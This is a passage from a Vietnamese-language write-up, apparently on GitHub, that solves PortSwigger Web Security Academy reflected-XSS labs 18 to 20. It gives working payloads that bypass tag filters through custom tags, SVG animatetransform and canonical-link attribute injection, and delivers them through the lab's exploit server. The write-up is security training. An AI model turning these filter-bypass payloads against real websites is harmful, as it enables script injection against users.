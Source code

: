 ![image](https://user-images.githubusercontent.com/103978452/208388670-224d7788-7d41-492a-bc58-6709b57cf36e.png)

Vào exploit server, thay đổi phần body thành đoạn code sau:
```
<iframe src="https://0adc000d035f895dc09086d3002500e3.web-security-academy.net/?search=<body+onresize=print()>" onload="this.width=500;"></iframe>
```
Sau khi click "Deliver to victim", kết quả thành công.

# 18. Reflected XSS into HTML context with all tags blocked except custom ones
Ta thấy chức năng search của website đã chặn tất cả các tag, tuy nhiên ta vẫn có thể inject một custom tag bình thường, ví dụ như tag `<xss>`

Khi trong URL có đoạn hash `#abc` thì website sẽ tự động focus vào phần tử có `id=abc`. Như vậy ta có thể dùng thuộc tính `autofocus` kết hợp với hash trong URL để thực thi lệnh javascript.

Vào exploit server và cấu hình đoạn HTML sau:
```
<script>document.location=https://0a6200f2049bb477c0242c69005400fd.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%281%29+tabindex%3D1%3E#x
```

Sau khi click "Deliver to victim", kết quả thành công.

# 19. Reflected XSS with some SVG markup allowed
Sau khi bruteforce với các tags và attributes, ta thấy có tag `svg` và `animateTransform` được cho phép. Cùng với đó ta có thể sử dụng thuộc tính `onbegin`.

Search trong Portswigger XSS cheatsheet, ta tìm được payload:
```
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```

Chèn payload vào request, kết quả thành công.

# 20. Reflected XSS in canonical link tag
Trong trang "Home", ta thấy có một thẻ `<link rel="canonical"...>`

![image](https://user-images.githubusercontent.com/103978452/208432456-e17cc7f1-2a33-437a-84f7-f0b01c07702f.png)

Khi ta thay thêm query string vào trong URL, thẻ này cũng sẽ được update lại tương ứng. Ta sẽ thử escape thuộc tính `href` và thêm thuộc tính mới. Ta thấy ký tự space đã bị encode, tuy nhiên có thể dùng kí tự `/` để thay thế

Thử sử dụng URL sau làm payload:
```
https://0af50083034c3b9fc02e2cc7005f0047.web-security-academy.net/?abc'%2Faccesskey='x'%2Fonclick='alert(1)
```
khi đó canonical link tag sẽ trở thành:

![image](https://user-images.githubusercontent.com/103978452/208432860-49125927-4b4c-4ad0-b73d-998bb3faa65d.png)
Kết quả, bài lab được giải thành công.
